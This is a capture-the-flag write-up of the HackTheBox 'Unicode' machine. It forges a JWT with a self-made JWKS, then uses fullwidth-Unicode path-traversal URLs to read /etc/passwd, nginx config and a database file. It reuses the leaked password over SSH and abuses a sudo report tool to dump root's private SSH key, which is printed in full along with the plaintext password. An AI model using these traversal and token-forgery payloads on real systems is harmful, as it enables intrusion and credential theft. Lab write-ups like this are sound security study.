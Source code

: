 # Hackthebox Unicode Writeup


```bash
openssl genrsa -out keypair.pem 2048
openssl rsa -in keypair.pem -pubout -out publickey.crt
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
```

create new `jwk` with [jwk creator](https://russelldavies.github.io/jwk-creator/)

```json
{
  "kty": "RSA",
  "n": "rg2Lt6Kjlg98kJ_9wG7qLrtYH9NlgpZVObeqyJJDIDPPY7OQ1PCtX_BzvmSUvnqglREaRwO_7g5e3DcbfLYjCWDAy_sGD9pDytnk0WT_qy7iUmbyzKv-oClfop_tQCzN50mZG8SZP62CP2fknUk3Ib5ElhAgVBlD1GeCAJ_ntv1ajYfm9ZPHCW0gfC2oTdSTeH3VCzhcdKoTw3nNCOUGruxJvrFubw5j0ZyExUfXFSyYoBU67Lq4aiWcJlBiiCDAd-UtmZMOWxzmDyoN0BFAa95bPxB1Qq9LyLQjxsSTf8SZ6J26y48dygArNSjmw4JwKZUKYnHqyzZl9LmdWuD2ow",
  "e": "AQAB",
  "alg": "RS256",
  "kid": "hackthebox",
  "use": "sig"
}
```
make new jwks_new.json
```json
{
    "keys": [
	{
		"kty": "RSA",
		"n": "rg2Lt6Kjlg98kJ_9wG7qLrtYH9NlgpZVObeqyJJDIDPPY7OQ1PCtX_BzvmSUvnqglREaRwO_7g5e3DcbfLYjCWDAy_sGD9pDytnk0WT_qy7iUmbyzKv-oClfop_tQCzN50mZG8SZP62CP2fknUk3Ib5ElhAgVBlD1GeCAJ_ntv1ajYfm9ZPHCW0gfC2oTdSTeH3VCzhcdKoTw3nNCOUGruxJvrFubw5j0ZyExUfXFSyYoBU67Lq4aiWcJlBiiCDAd-UtmZMOWxzmDyoN0BFAa95bPxB1Qq9LyLQjxsSTf8SZ6J26y48dygArNSjmw4JwKZUKYnHqyzZl9LmdWuD2ow",
		"e": "AQAB",
		"alg": "RS256",
  		"kid": "hackthebox",
  		"use": "sig"
	}
    ]
}
```

Paste the token to auth cookie and Boom we are login.

[/etc/passwd](view-source:http://hackmedia.htb/display/?page=%EF%BC%8E%EF%BC%8E/%EF%BC%8E%EF%BC%8E/%EF%BC%8E%EF%BC%8E/%EF%BC%8E%EF%BC%8E/%EF%BD%85%EF%BD%94%EF%BD%83/%EF%BD%90%EF%BD%81%EF%BD%93%EF%BD%93%EF%BD%97%EF%BD%84)

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
code:x:1000:1000:,,,:/home/code:/bin/bash

```
[default nginx config](view-source:http://hackmedia.htb/display/?page=%EF%BC%8E%EF%BC%8E/%EF%BC%8E%EF%BC%8E/%EF%BC%8E%EF%BC%8E/%EF%BC%8E%EF%BC%8E/%EF%BD%85%EF%BD%94%EF%BD%83/%EF%BD%8E%EF%BD%87%EF%BD%89%EF%BD%8E%EF%BD%98/%EF%BD%93%EF%BD%89%EF%BD%94%EF%BD%85%EF%BD%93-%EF%BD%81%EF%BD%96%EF%BD%81%EF%BD%89%EF%BD%8C%EF%BD%81%EF%BD%82%EF%BD%8C%EF%BD%85/%EF%BD%84%EF%BD%85%EF%BD%86%EF%BD%81%EF%BD%95%EF%BD%8C%EF%BD%94)
```bash
limit_req_zone $binary_remote_addr zone=mylimit:10m rate=800r/s;

server{
#Change the Webroot from /home/code/app/ to /var/www/html/
#change the user password from db.yaml
	listen 80;
	error_page 503 /rate-limited/;
	location / {
                limit_req zone=mylimit;
		proxy_pass http://localhost:8000;
		include /etc/nginx/proxy_params;
		proxy_redirect off;
	}
	location /static/{
		alias /home/code/coder/static/styles/;
	}
}
```
[db.yaml](view-source:http://hackmedia.htb/display/?page=%EF%BC%8E%EF%BC%8E/%EF%BC%8E%EF%BC%8E/%EF%BC%8E%EF%BC%8E/%EF%BC%8E%EF%BC%8E/%EF%BD%88%EF%BD%8F%EF%BD%8D%EF%BD%85/%EF%BD%83%EF%BD%8F%EF%BD%84%EF%BD%85/%EF%BD%83%EF%BD%8F%EF%BD%84%EF%BD%85%EF%BD%92/%EF%BD%84%EF%BD%82%EF%BC%8E%EF%BD%99%EF%BD%81%EF%BD%8D%EF%BD%8C)
```bash
mysql_host: "localhost"
mysql_user: "code"
mysql_password: "B3stC0d3r2021@@!"
mysql_db: "user"
```

try to login with ssh. Boom!!
```kv
user: code
pass: B3stC0d3r2021@@!
```

Try to read the private key of root
```bash
code@code:~$ sudo /usr/bin/treport
1.Create Threat Report.
2.Read Threat Report.
3.Download A Threat Report.
4.Quit.
Enter your choice:3
Enter the IP/file_name:File:///root/.ssh/id_rsa
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2590  100  2590    0     0  2529k      0 --:--:-- --:--:-- --:--:-- 2529k
Enter your choice:2
ALL THE THREAT REPORTS:
1 threat_report_15_53_41 threat_report_16_14_12 2.txt threat_report_16_12_43 threat_report_16_10_53

Enter the filename:threat_report_16_12_43
-----BEGIN OPENSSH PRIVATE KEY-----
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
a5BI6W1lTZzjUAAAAJcm9vdEBjb2RlAQI=
-----END OPENSSH PRIVATE KEY-----

Enter your choice:
```

